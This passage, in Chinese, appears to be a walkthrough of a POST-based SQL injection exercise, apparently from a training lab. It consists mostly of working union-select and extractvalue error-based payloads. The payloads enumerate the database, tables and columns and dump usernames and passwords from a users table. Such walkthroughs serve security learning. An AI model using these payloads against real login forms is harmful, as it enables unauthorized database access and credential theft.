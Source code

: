 因为这是一个 POST 型的注入，那么国光这里就再啰嗦一遍，走一遍详细的流程吧

### 联合查询注入

> POST 数据里面不能有 `+`，这里得手动转换为空格

```payload
uname=admin&passwd=1'union select 1,(SELECT GROUP_CONCAT(username,password) FROM users)#&submit=Submit
```

暴表payload

```
uname=admin' and 1=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --+&passwd=admin&submit=Submit
```

暴字段

```
uname=admin' and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='users' --+&passwd=admin&submit=Submit
```

暴内容

```
uname=admin' and 1=2 union select 1,group_concat(username,0x3a,password,0x23) from users --+&passwd=admin&submit=Submit
```

### extractvalue报错注入

爆库payload

```
uname=admin' and extractvalue(1,concat(0x7e,(select database()))) --+&passwd=admin&submit=Submit
```

爆表payload

```
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+&passwd=admin&submit=Submit
```

爆列名payload

```
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) --+&passwd=admin&submit=Submit
```

爆值payload

```
uname=admin' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)))--+&passwd=admin&submit=Submit
```
